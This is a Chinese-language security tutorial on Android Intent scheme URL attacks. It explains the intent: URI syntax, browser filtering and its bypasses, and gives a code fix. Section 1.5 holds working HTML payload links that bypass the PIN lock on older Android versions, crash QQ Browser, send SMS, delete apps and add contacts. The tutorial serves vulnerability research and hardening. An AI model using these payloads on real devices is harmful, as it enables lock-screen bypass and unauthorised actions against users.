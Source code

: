 # 一.  Intent scheme URL attack

---

**Author:瘦蛟舞**

**Create:20140824**

## 1.1  Android Intents with Chrome

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：`<iframe src="paulsawesomeapp://page1"> </iframe>`。此方法适用version 18或者更早版本。其他android浏览器也适用。

这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的`intent:`语法。

### 1.1.1  基本语法

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过Intent Extras传递额外信息。
intent-based URI基本语法如下：

	intent:
	   HOST/URI-path // Optional host
	   #Intent;
	      package=[string];
	      action=[string];
	      category=[string];
	      component=[string];
	      scheme=[string];
	   end;

语法细节见源码Android source

![](img/parse1.png)

![](img/parse2.png) 
 
### 1.1.2  简单举例

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

	intent:
	   //scan/
	   #Intent;
	      package=com.google.zxing.client.android;
	      scheme=zxing;
	   end;

设置a标签发href属性：

	<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>

Package和host定义在配置文件中Android Zxing Manifest

### 1.1.3  注意事项

如果调用activity的intent包含extras，同样可以包含这些。(不支持序列化)

Activity只有配置了category filter才有被android.intent.category.BROWSABLE通过这种方式在浏览器中打开，因为这样表明其是安全的。

### 1.1.4  另请参阅

* Android Intents and Intent Filters
* Android Activities

## 1.2  利用思路
 	
在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。
然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

## 1.3  Intent scheme URL的用法

看一下Intent Scheme URL的用法。

	<script>location.href = “intent:mydata#Intent;action=myaction;type=text/plain;end”</script>  

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.parse("mydata"));  
	intent.setType("text/plain");  

再看一个例子：

	intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end  

上面的语句，等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.pase("//foobar/"));  
	intent.putExtra("xyz", "123");  
	intent.putExtra("abc", 678);  

其中S代表String类型的key-value，i代表int类型的key-value。
源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

## 1.4  Intent scheme URI的解析及过滤

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

* 利用Intent.parseUri解析uri，获取原始的intent对象；
* 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
* 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

	Intent.parseUri()

绕过

	Intent.setComponent(null);

使用sel;

## 1.5  乌云案例

http://www.wooyun.org/bugs/wooyun-2014-073875 
http://www.wooyun.org/bugs/wooyun-2014-067798 

某浏览器对此支持非常好
	
	<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
	   设置绕过Pin码（android 3.0-4.3）
	</a><br>
 
![](img/pincode.png)

	<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
	    qq浏览器崩溃
	</a><br>
 
	<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
	    打开原生浏览器
	</a><br>
 
	<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
	   发送短信
	</a><br>
	
	<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
	   打开相机
	</a><br>
	
	<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
	   删除应用
	</a><br>
	
	<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
	    添加联系人
	</a><br>

## 1.6  修复

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

	// convert intent scheme URL to intent object  
	Intent intent = Intent.parseUri(uri);  
	// forbid launching activities without BROWSABLE category  
	intent.addCategory("android.intent.category.BROWSABLE");  
	// forbid explicit call  
	intent.setComponent(null);  
	// forbid intent with selector intent  
	intent.setSelector(null);  
	// start the activity by the intent  
	context.startActivityIfNeeded(intent, -1);  

## 1.7 参考

http://www.mbsd.jp/Whitepaper/IntentScheme.pdf

http://blog.csdn.net/l173864930/article/details/36951805
